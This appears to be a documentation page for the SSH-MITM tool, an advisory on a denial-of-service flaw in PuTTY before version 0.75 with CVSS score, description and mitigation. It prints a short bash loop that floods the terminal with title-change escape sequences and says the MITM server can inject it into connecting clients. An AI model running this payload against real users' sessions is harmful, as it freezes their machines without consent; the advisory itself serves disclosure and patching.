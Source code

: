 PuTTY < v0.75 DoS
=================

.. raw:: html

    <div class="card card-margin">
        <div class="card-header no-border">
            <h5 class="card-title cve-title">PuTTY &lt; v0.75 DoS</h5>
        </div>
        <div class="card-body pt-0">
            <div class="widget-49">
                <div class="widget-49-title-wrapper">
                    <div class="widget-49-date-primary">
                        <span class="widget-49-date-day">7.5</span>
                        <span class="widget-49-date-month">CVSS</span>
                    </div>
                    <div class="widget-49-meeting-info">
                        <span class="widget-49-pro-title"><b>Vector:</b> CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H</span>
                        <span class="widget-49-meeting-time">
                            <a href="https://www.chiark.greenend.org.uk/~sgtatham/putty/changes.html">https://www.chiark.greenend.org.uk/~sgtatham/putty/changes.html</a>
                        </span>
                    </div>
                </div>
                <p class="widget-49-meeting-integration">
                    <i class="fas fa-check"></i> integrated in <a href="https://github.com/ssh-mitm/ssh-mitm-plugins/blob/main/ssh_mitm_plugins/ssh/putty_dos.py">SSH-MITM plugins</a>
                </p>
                <p class="widget-49-meeting-text">
                    A server could DoS the whole Windows/Linux GUI by telling
                    the PuTTY window to change its title repeatedly at high speed.
                </p>
                <span class="widget-49-pro-title"><b>Affected Software:</b></span>
                <ul class="widget-49-meeting-points">
                    <li class="widget-49-meeting-item"><b>PuTTY</b> &lt; 0.75</li>
                </ul>
            </div>
        </div>
    </div>

Description
-----------

A vulnerability in PuTTY < 0.75 freezes the entire, leading inevitably to a manual restart. This happens when executing
a simple command to repeatedly change the terminals title.

Set window title from terminal:

.. code-block:: bash
    :linenos:

    $ PS1=''
    echo -ne "\033]0; NEW_TITLE \007"

Thus, an working exploit would be:

.. code-block:: bash
    :linenos:

    $ PS1=''
    while :
    > do
    > echo -ne "\033]0; NEW_TITLE${RANDOM}  \007"
    > done


Using the injection functionality of the mitm Server, this exploit can be executed immediately when a client connects
to the mitm server via PuTTY.

Mitigation
----------

Update PuTTY to version >= 0.75